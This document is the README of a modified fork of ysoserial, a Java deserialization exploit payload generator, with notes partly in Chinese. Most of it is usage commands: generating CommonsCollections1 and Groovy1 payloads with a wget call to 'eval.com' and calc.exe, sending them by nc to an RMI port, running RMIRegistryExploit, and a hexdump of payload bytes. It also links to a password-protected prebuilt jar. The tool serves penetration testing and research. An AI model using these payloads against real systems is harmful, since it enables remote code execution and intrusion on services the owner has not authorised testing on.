 
# ysoserial-5am3

> forked from frohoff/ysoserial



## Description

基于原版的一个魔改版。

- [x] 在原版生成命令执行基础上，使其支持生成代码执行Payload
- [x] Add JRMPClient2 (https://xz.aliyun.com/t/2479#toc-1)

## Usage

```bash
# 1.调用模块
# java -cp ./ysoserial-5am3.jar <模块名> <所需参数> 
java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8579 URLDNS 

# 2.采用内置poc，生成反序列化payload

# 2.1.默认
# java -jar ./ysoserial-5am3.jar <POC名称> <所需参数> 
# 默认生成为二进制字节
java -jar ./ysoserial-5am3.jar JRMPClient2 10.0.0.1:8119

# 2.2.payload中含有命令执行等参数
# 2.2.1 执行shell命令

java -jar ysoserial.jar CommonsCollections1 "wget http://eval.com"

# 2.2.2 执行java代码

java -jar ysoserial.jar CommonsCollections1 'code:System.out.println("Hello Hack!");'
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Download & Building 

Requires Java 1.7+ and Maven 3.x+

```bash

git clone https://github.com/5am3/ysoserial.git
cd ysoserial
mvn clean package -DskipTests
java -jar ./target/ysoserial-0.0.6-SNAPSHOT-all.jar
```


## 直接下载

建议自行编译
链接:https://pan.baidu.com/s/1FDF_7YQ_Dh8vBEow4xjUkg  密码:1eoh
